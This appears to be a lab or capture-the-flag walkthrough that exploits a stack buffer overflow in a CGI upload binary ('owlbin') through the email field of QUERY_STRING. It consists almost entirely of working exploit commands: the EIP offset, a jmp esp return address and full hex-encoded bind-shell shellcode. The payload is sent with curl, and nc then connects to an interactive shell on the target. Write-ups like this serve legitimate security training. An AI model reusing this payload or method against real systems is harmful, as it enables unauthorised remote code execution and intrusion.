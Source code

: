 ``` bash
root@pwk:~# export QUERY_STRING="name=Me&surname=Me&Description=Me2&uploadfield=Blah&email=me@me.com"
root@pwk:~# ./owlbin
Content-type: text/plain

Unable to open file
root@pwk:~#
```

It is possible to overflow this application via the email variable, which through some further investigation identifies that EIP is at offset 277.

``` bash
root@pwk:~# export QUERY_STRING=$(python -c 'print "uploadfield=/etc/passwd&uploadfield=bleh99&name=Me&email=AAH@" + "A"*276+"BBBB"')
root@pwk:~# ./owlbin
Content-type: text/plain

Segmentation fault
root@pwk:~#
```

gdb-peda can be used to find a jmp esp call, which is at 0x80c75ab9. This is what we'll set our EIP value to, which should hopefully jump to our bind shell shellcode. This can be completely exploited as follows

``` bash
root@pwk:~# export QUERY_STRING=$(python -c 'print "uploadfield=/etc/passwd&uploadfield=passwd&name=Russ&email=AAH@" + "A"*276+"\xab\x75\x0c\x08" + "\x90\x90\x90\x90\x6a\x66\x58\x6a\x01\x5b\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x5f\x97\x93\xb0\x66\x56\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\x43\x56\x56\x57\x89\xe1\xcd\x80\x59\x59\xb1\x02\x93\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\x89\xca\xcd\x80"')
root@pwk:~# curl -v "http://172.16.56.140/application/upload" --data "$QUERY_STRING"
* About to connect() to 172.16.56.140 port 80 (#0)
*   Trying 172.16.56.140...
* connected
* Connected to 172.16.56.140 (172.16.56.140) port 80 (#0)
> POST /application/upload HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 172.16.56.140
> Accept: */*
> Content-Length: 436
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 436 out of 436 bytes
root@pwk:~# nc -nv 172.16.56.140 1337
nc: 172.16.56.140 1337 open
id
uid=1000(rmp) gid=1000(rmp) groups=1000(rmp),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```
